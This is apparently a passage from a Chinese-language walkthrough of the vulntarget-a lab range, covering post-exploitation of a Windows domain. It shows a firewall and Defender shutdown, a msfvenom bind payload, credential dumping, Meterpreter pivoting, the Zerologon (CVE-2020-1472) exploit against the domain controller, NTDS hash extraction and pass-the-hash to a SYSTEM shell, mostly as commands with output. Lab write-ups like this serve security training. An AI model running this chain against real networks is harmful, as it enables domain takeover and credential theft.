C:\phpStudy\PHPTutorial\WWW> ipconfig
Windows IP 配置
以太网适配器 Ethernet0:
   连接特定的 DNS 后缀 . . . . . . . :
   本地链接 IPv6 地址. . . . . . . . : fe80::9190:38ad:1e9d:7f70%10
   IPv4 地址 . . . . . . . . . . . . : 10.0.20.99
   子网掩码  . . . . . . . . . . . . : 255.255.255.0
   默认网关. . . . . . . . . . . . . :
以太网适配器 Ethernet1:
   连接特定的 DNS 后缀 . . . . . . . :
   本地链接 IPv6 地址. . . . . . . . : fe80::919b:ab4d:10b3:df65%13
   IPv4 地址 . . . . . . . . . . . . : 10.0.10.111
   子网掩码  . . . . . . . . . . . . : 255.255.255.0
   默认网关. . . . . . . . . . . . . :
隧道适配器 isatap.{A7027029-ECC3-4186-BC98-9DCE01AAA9D0}:
   媒体状态  . . . . . . . . . . . . : 媒体已断开连接
   连接特定的 DNS 后缀 . . . . . . . :
隧道适配器 isatap.{82CC4AA7-AABB-4296-94AE-3AB9161E5B11}:
   媒体状态  . . . . . . . . . . . . : 媒体已断开连接
   连接特定的 DNS 后缀 . . . . . . . :
```

查看当前用户权限

```shell title="win2016 10.0.20.99 | 10.0.10.111"
C:\phpStudy\PHPTutorial\WWW> whoami
nt authority\system
```

## win2016 持久化

关闭防火墙

```shell
C:\phpStudy\PHPTutorial\WWW> netsh advfirewall show allprofiles
�������ļ� ����:
----------------------------------------------------------------------
״̬                                  ����
����ǽ����                          BlockInbound,AllowOutbound
LocalFirewallRules                    N/A (�� GPO �洢)
LocalConSecRules                      N/A (�� GPO �洢)
InboundUserNotification               ����
RemoteManagement                      ����
UnicastResponseToMulticast            ����
��־:
LogAllowedConnections                 ����
LogDroppedConnections                 ����
FileName                              %systemroot%\system32\LogFiles\Firewall\pfirewall.log
MaxFileSize                           4096
ר�������ļ� ����:
----------------------------------------------------------------------
״̬                                  ����
����ǽ����                          BlockInbound,AllowOutbound
LocalFirewallRules                    N/A (�� GPO �洢)
LocalConSecRules                      N/A (�� GPO �洢)
InboundUserNotification               ����
RemoteManagement                      ����
UnicastResponseToMulticast            ����
��־:
LogAllowedConnections                 ����
LogDroppedConnections                 ����
FileName                              %systemroot%\system32\LogFiles\Firewall\pfirewall.log
MaxFileSize                           4096
���������ļ� ����:
----------------------------------------------------------------------
״̬                                  ����
����ǽ����                          BlockInbound,AllowOutbound
LocalFirewallRules                    N/A (�� GPO �洢)
LocalConSecRules                      N/A (�� GPO �洢)
InboundUserNotification               ����
RemoteManagement                      ����
UnicastResponseToMulticast            ����
��־:
LogAllowedConnections                 ����
LogDroppedConnections                 ����
FileName                              %systemroot%\system32\LogFiles\Firewall\pfirewall.log
MaxFileSize                           4096
ȷ����

C:\phpStudy\PHPTutorial\WWW> chcp 65001
Active code page: 65001

C:\phpStudy\PHPTutorial\WWW> netsh advfirewall show allprofiles
�������ļ� ����:
----------------------------------------------------------------------
״̬                                  ����
����ǽ����                          BlockInbound,AllowOutbound
LocalFirewallRules                    N/A (�� GPO �洢)
LocalConSecRules                      N/A (�� GPO �洢)
InboundUserNotification               ����
RemoteManagement                      ����
UnicastResponseToMulticast            ����
��־:
LogAllowedConnections                 ����
LogDroppedConnections                 ����
FileName                              %systemroot%\system32\LogFiles\Firewall\pfirewall.log
MaxFileSize                           4096
ר�������ļ� ����:
----------------------------------------------------------------------
״̬                                  ����
����ǽ����                          BlockInbound,AllowOutbound
LocalFirewallRules                    N/A (�� GPO �洢)
LocalConSecRules                      N/A (�� GPO �洢)
InboundUserNotification               ����
RemoteManagement                      ����
UnicastResponseToMulticast            ����
��־:
LogAllowedConnections                 ����
LogDroppedConnections                 ����
FileName                              %systemroot%\system32\LogFiles\Firewall\pfirewall.log
MaxFileSize                           4096
���������ļ� ����:
----------------------------------------------------------------------
״̬                                  ����
����ǽ����                          BlockInbound,AllowOutbound
LocalFirewallRules                    N/A (�� GPO �洢)
LocalConSecRules                      N/A (�� GPO �洢)
InboundUserNotification               ����
RemoteManagement                      ����
UnicastResponseToMulticast            ����
��־:
LogAllowedConnections                 ����
LogDroppedConnections                 ����
FileName                              %systemroot%\system32\LogFiles\Firewall\pfirewall.log
MaxFileSize                           4096
ȷ����

C:\phpStudy\PHPTutorial\WWW> netsh advfirewall set allprofiles state off
ȷ����

C:\phpStudy\PHPTutorial\WWW> gpupdate /force
```

然后基于当前 `nt authority\system` 的用户权限，直接注册表关闭 `Defender`

```shell
C:\phpStudy\PHPTutorial\WWW> REG ADD "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f
操作成功完成。
```

关闭 `Defender` 之后，就可以使用蚁剑进行文件管理等操作

但是经过多次尝试，反向马无法连接，于是尝试构建正向马

```shell
$ msfvenom -p windows/x64/meterpreter/bind_tcp  LPORT=4444 -f exe > 4444.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 496 bytes
Final size of exe file: 7168 bytes
```



## 域信息收集

```shell title="win7 192.168.200.10 | 10.0.20.98"
meterpreter > arp

ARP cache
=========

    IP address       MAC address        Interface
    ----------       -----------        ---------
    10.0.20.99       00:0c:29:49:db:32  Intel(R) PRO/1000 MT Network Connection #2
    10.0.20.255      ff:ff:ff:ff:ff:ff  Intel(R) PRO/1000 MT Network Connection #2
    192.168.200.0    00:50:56:eb:cc:78  Intel(R) PRO/1000 MT Network Connection
    192.168.200.1    00:50:56:c0:00:00  Intel(R) PRO/1000 MT Network Connection
    192.168.200.129  00:0c:29:07:06:1a  Intel(R) PRO/1000 MT Network Connection
    192.168.200.254  00:50:56:fb:ab:25  Intel(R) PRO/1000 MT Network Connection
    192.168.200.255  ff:ff:ff:ff:ff:ff  Intel(R) PRO/1000 MT Network Connection
    224.0.0.22       00:00:00:00:00:00  Software Loopback Interface 1
    224.0.0.22       01:00:5e:00:00:16  Intel(R) PRO/1000 MT Network Connection
    224.0.0.22       01:00:5e:00:00:16  Intel(R) PRO/1000 MT Network Connection #2
    224.0.0.22       01:00:5e:00:00:16  Bluetooth ����(����������)
    224.0.0.252      01:00:5e:00:00:fc  Intel(R) PRO/1000 MT Network Connection
    224.0.0.252      01:00:5e:00:00:fc  Intel(R) PRO/1000 MT Network Connection #2
    239.255.255.250  00:00:00:00:00:00  Software Loopback Interface 1
    239.255.255.250  01:00:5e:7f:ff:fa  Intel(R) PRO/1000 MT Network Connection
    255.255.255.255  ff:ff:ff:ff:ff:ff  Intel(R) PRO/1000 MT Network Connection
```

```shell title="win2016 10.0.20.99 | 10.0.10.111"
meterpreter > arp

ARP cache
=========

    IP address       MAC address        Interface
    ----------       -----------        ---------
    10.0.10.110      00:0c:29:96:86:43  Intel(R) 82574L Gigabit Network Connection #2
    10.0.10.255      ff:ff:ff:ff:ff:ff  Intel(R) 82574L Gigabit Network Connection #2
    10.0.20.1        00:50:56:c0:00:12  Intel(R) 82574L Gigabit Network Connection
    10.0.20.98       00:0c:29:b3:db:12  Intel(R) 82574L Gigabit Network Connection
    10.0.20.255      ff:ff:ff:ff:ff:ff  Intel(R) 82574L Gigabit Network Connection
    224.0.0.22       00:00:00:00:00:00  Software Loopback Interface 1
    224.0.0.22       01:00:5e:00:00:16  Intel(R) 82574L Gigabit Network Connection
    224.0.0.22       01:00:5e:00:00:16  Intel(R) 82574L Gigabit Network Connection #2
    224.0.0.252      01:00:5e:00:00:fc  Intel(R) 82574L Gigabit Network Connection
    224.0.0.252      01:00:5e:00:00:fc  Intel(R) 82574L Gigabit Network Connection #2
    239.255.255.250  00:00:00:00:00:00  Software Loopback Interface 1
    239.255.255.250  01:00:5e:7f:ff:fa  Intel(R) 82574L Gigabit Network Connection
    239.255.255.250  01:00:5e:7f:ff:fa  Intel(R) 82574L Gigabit Network Connection #2
```

在 `win2016` 上探测到域信息

```shell title="win2016 10.0.20.99 | 10.0.10.111"
meterpreter > run post/windows/gather/enum_domain

[+] Domain FQDN: vulntarget.com
[+] Domain NetBIOS Name: VULNTARGET
[+] Domain Controller: win2019.vulntarget.com (IP: 10.0.10.110)

meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username       Domain      NTLM                              SHA1
--------       ------      ----                              ----
Administrator  WIN2016     570a9a65db8fba761c1008a51d4c95ab  759e689a07a84246d0b202a80f5fd9e335ca5392
WIN2016$       VULNTARGET  2b6d27b1fbbad9f1e6413f972dec61ef  59e545714c05fb9b1a65fb79374a7c3dbbed25cf

wdigest credentials
===================

Username       Domain      Password
--------       ------      --------
(null)         (null)      (null)
Administrator  WIN2016     (null)
WIN2016$       VULNTARGET  (null)

kerberos credentials
====================

Username       Domain          Password
--------       ------          --------
(null)         (null)          (null)
Administrator  WIN2016         (null)
WIN2016$       vulntarget.com  9f 4a d8 69 51 87 85 85 8f 09 7c 82 f2 18 39 f6 c9 0e 07 3c 47 dc 95 a6 31 a8 42 6d af 98 49 5f e8 53 1c 4c 57 a5 d5 71 c5 4c f2 28 f4 fd 52 70 ed 6f da 35 e7 82 fd 46 6e 53 a
                               c ef b1 cf 71 a7 cc f2 ff 4d bc 08 0f ee f6 e1 ac a5 8f 4f b6 a7 ae 3e e0 44 d6 79 bc ee e9 ea a9 17 c4 d5 58 78 06 43 ca 6c 73 3c d2 30 07 20 1d 2e 12 96 34 a4 a3 b7 42 ba be
                                1d 84 b4 5d 32 d9 cf 39 f0 3e a4 79 2d 00 8b 62 6a 6b f3 3e c8 f7 ad 78 be 51 04 7b 30 fe eb e5 12 af 14 49 cb 50 63 68 97 01 29 9b 6e 4d 02 1b 7f be 13 f1 ea 92 26 c6 65 f2
                               0c fa 70 9f b3 42 ae 94 9b 0c 35 77 2c 4b 54 1d 81 3c dd 0f 5c 15 04 0f fd aa b1 e5 62 0a 74 ca 84 2f 80 92 c2 59 b4 af 02 99 bb eb 95 99 d3 1b 59 4c c8 6e bd 75 be 0c 9d f9 a
                               1 30 3e 85 7c 49 86
win2016$       VULNTARGET.COM  (null)
```

这与 ARP 表得到的信息吻合

## 建立二层内网代理

在 Meterpreter 中添加路由，并建立代理

```shell title="win2016 10.0.20.99 | 10.0.10.111"
meterpreter > run post/multi/manage/autoroute

[*] Running module against WIN2016
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.0.10.0/255.255.255.0 from host's routing table.
[+] Route added to subnet 10.0.20.0/255.255.255.0 from host's routing table.
meterpreter > bg
msf6 exploit(multi/handler) > use auxiliary/server/socks_proxy、
msf6 auxiliary(server/socks_proxy) > exploit
[*] Auxiliary module running as background job 0.
[*] Starting the SOCKS proxy server
```

## win2019 侦察

扫描 `win2019` 开放的端口

```shell
$ proxychains ./tools/fscan-1.8.4/fscan -h 10.0.10.110
start infoscan
10.0.10.110:139 open
10.0.10.110:135 open
10.0.10.110:445 open
10.0.10.110:88 open
[*] alive ports len is: 4
start vulscan
[*] NetInfo
[*]10.0.10.110
   [->]win2019
   [->]10.0.10.110
[*] NetBios 10.0.10.110     [+] DC:VULNTARGET\WIN2019
已完成 4/4
[*] 扫描结束, 耗时: 3.072107126s
```

:::warning

这里遇到比较大的问题，就是 socks 代理的不稳定问题

个人建议，直接使用 metasploit 全程打下来，不要使用其他隧道工具

先将 `win7` 使用 `windows/x64/meterpreter/reverse_tcp` 持久化

然后运行 `run post/multi/manage/autoroute` 做内网路由

```shell
[*] Running module against WIN7-PC
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.0.20.0/255.255.255.0 from host's routing table.
[+] Route added to subnet 192.168.200.0/255.255.255.0 from host's routing table.
[+] Route added to subnet 169.254.0.0/255.255.0.0 from Bluetooth vc6.
```

然后直接连接 `win2016` 的 `windows/x64/meterpreter/bind_tcp` 做持久化，再执行一次内网路由

```shell
[*] Running module against WIN2016
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.0.10.0/255.255.255.0 from host's routing table.
```

最后的 sessions 应该会是

```plaintext
msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                    Connection
  --  ----  ----                     -----------                    ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ WIN7-PC  192.168.200.129:3333 -> 192.168.200.10:50706 (192.168.200.10)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ WIN2016  10.0.20.98:50730 -> 10.0.20.99:4444 via session 1 (10.0.20.99)
```

:::

## win2019 域哈希收集

使用[dirkjanm/CVE-2020-1472: PoC for Zerologon - all research credits go to Tom Tervoort of Secura](https://github.com/dirkjanm/CVE-2020-1472)

```shell
$ proxychains python3 cve-2020-1472-exploit.py WIN2019 10.0.10.110
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Performing authentication attempts...
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.0.10.110:135  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.0.10.110:49674  ...  OK
==========================================================================================================================================================================================================================================================================
Target vulnerable, changing account password to empty string

Result: 0

Exploit complete!
```

成功更改账户密码之后，获取域哈希信息

```shell
$ proxychains -q impacket-secretsdump vulntarget.com/WIN2019\$@10.0.10.110 -no-pass
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c7c654da31ce51cbeecfef99e637be15:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a3dd8e4a352b346f110b587e1d1d1936:::
vulntarget.com\win2016:1601:aad3b435b51404eeaad3b435b51404ee:dfc8d2bfa540a0a6e2248a82322e654e:::
WIN2019$:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WIN2016$:1602:aad3b435b51404eeaad3b435b51404ee:2b6d27b1fbbad9f1e6413f972dec61ef:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:70a1edb09dbb1b58f1644d43fa0b40623c014b690da2099f0fc3a8657f75a51d
Administrator:aes128-cts-hmac-sha1-96:04c435638a00755c0b8f12211d3e88a1
Administrator:des-cbc-md5:dcc29476a789ec9e
krbtgt:aes256-cts-hmac-sha1-96:f7a968745d4f201cbeb73f4b1ba588155cfd84ded34aaf24074a0cfe95067311
krbtgt:aes128-cts-hmac-sha1-96:f401ac35dc1c6fa19b0780312408cded
krbtgt:des-cbc-md5:10efae67c7026dbf
vulntarget.com\win2016:aes256-cts-hmac-sha1-96:e4306bef342cd8215411f9fc38a063f5801c6ea588cc2fee531342928b882d61
vulntarget.com\win2016:aes128-cts-hmac-sha1-96:6da7e9e046c4c61c3627a3276f5be855
vulntarget.com\win2016:des-cbc-md5:6e2901311c32ae58
WIN2019$:aes256-cts-hmac-sha1-96:092c877c3b20956347d535d91093bc1eb16b486b630ae2d99c0cf15da5db1390
WIN2019$:aes128-cts-hmac-sha1-96:0dca147d2a216089c185d337cf643e25
WIN2019$:des-cbc-md5:01c8894f541023bc
WIN2016$:aes256-cts-hmac-sha1-96:70d999981306f90f6570a7cf59f3e1189e7ba84a9bced5b4e9843b4ebd5149b5
WIN2016$:aes128-cts-hmac-sha1-96:3490377bc717cc13f3075a1ca7cf4ba0
WIN2016$:des-cbc-md5:863d8f7c9846c8fe
[*] Cleaning up... 
```

得到域哈希信息之后，就可以拿下DC的Administrator

```shell
$ proxychains impacket-smbexec -hashes aad3b435b51404eeaad3b435b51404ee:c7c654da31ce51cbeecfef99e637be15 Administrator@10.0.10.110 -codec gbk
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.0.10.110:445  ...  OK
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system
```

## Reference

[渗透靶场——vulntarget-a综合靶场 - 先知社区](https://xz.aliyun.com/t/12422?time__1311=GqGxRQ0%3DEx9DlrzG7bGOYD8jEQAKqwod3x)
